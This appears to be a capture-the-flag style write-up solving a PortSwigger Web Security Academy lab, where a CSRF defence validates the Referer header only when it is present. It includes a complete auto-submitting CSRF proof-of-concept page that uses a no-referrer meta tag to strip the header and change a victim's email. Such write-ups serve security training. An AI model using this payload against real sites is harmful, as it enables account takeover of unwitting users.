









[Source](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present)
## Task
The email address change function in this lab is vulnerable to CSRF. It attempts to block cross-domain requests, but has an insecure fallback.
To solve the task, we need to host an HTML page on our exploit server that uses a CSRF attack to change the browsing user's email address.
We can log in to our account using the following details: `wiener:peter`
## Solution
Go to the task page



Log in as `wiener`



Change the email and intercept the request via `Burp Suite`



Send this request to `Burp Repeater` and notice that if we change the domain in the `Referer` header, the request is rejected.



Remove the entire `Referer` header - now the request is accepted.



Create and place a `PoC` exploit on the exploit server, as described in the solution to the lab about [[CSRF vulnerability without protection]]. Don't forget to include the following HTML snippet to remove the `Referer` header:
```HTML
<meta name="referrer" content="no-referrer">
```






```HTML
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ab500d103cd8023b05aae15009a006c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test1&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
	  <meta name="referrer" content="no-referrer">
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```



Next, click `Store`, `Deliver exploit to victim` and the lab is solved


